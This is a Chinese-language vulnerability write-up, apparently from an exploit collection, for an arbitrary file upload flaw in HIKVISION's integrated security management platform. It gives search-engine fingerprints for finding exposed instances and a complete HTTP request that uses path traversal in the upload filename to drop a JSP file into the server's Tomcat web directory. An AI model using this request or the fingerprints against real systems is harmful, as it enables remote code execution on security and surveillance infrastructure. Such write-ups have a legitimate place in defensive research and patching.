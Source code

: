 # HIKVISION 综合安防管理平台 files 任意文件上传漏洞

# HIKVISION 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

HiKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](/images/202208241341481.png)

需要开放运行管理中心 (8001端口)

![image-20230828163622054](images/image-20230828163622054.png)

```
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163639195](images/image-20230828163639195.png)

